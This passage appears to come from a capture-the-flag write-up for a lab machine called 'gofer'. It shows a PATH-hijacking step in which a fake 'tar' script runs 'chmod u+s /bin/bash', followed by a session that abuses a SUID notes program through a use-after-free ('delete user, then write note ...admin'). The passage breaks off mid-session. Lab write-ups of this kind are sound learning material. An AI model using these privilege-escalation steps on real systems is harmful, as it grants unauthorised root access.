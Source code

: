 First, let's create our `tar` binary:

```bash
cd
echo '#!/bin/bash' > tar
echo 'chmod u+s /bin/bash' >> tar
chmod 777 tar
export PATH=~:$PATH
```

Then,  follow the exploit path I laid above.

```
tbuckley@gofer:~$ /usr/local/bin/notes 
========================================
1) Create an user and choose an username
2) Show user information
3) Delete an user
4) Write a note
5) Show a note
6) Save a note (not yet implemented)
7) Delete a note
8) Backup notes
9) Quit
========================================


Your choice: 1

Choose an username: test

========================================
1) Create an user and choose an username
2) Show user information
3) Delete an user
4) Write a note
5) Show a note
6) Save a note (not yet implemented)
7) Delete a note
8) Backup notes
9) Quit
========================================


Your choice: 3

========================================
1) Create an user and choose an username
2) Show user information
3) Delete an user
4) Write a note
5) Show a note
6) Save a note (not yet implemented)
7) Delete a note
8) Backup notes
9) Quit
========================================


Your choice: 4

Write your note:
111111111111111111111111admin
========================================
1) Create an user and choose an username
```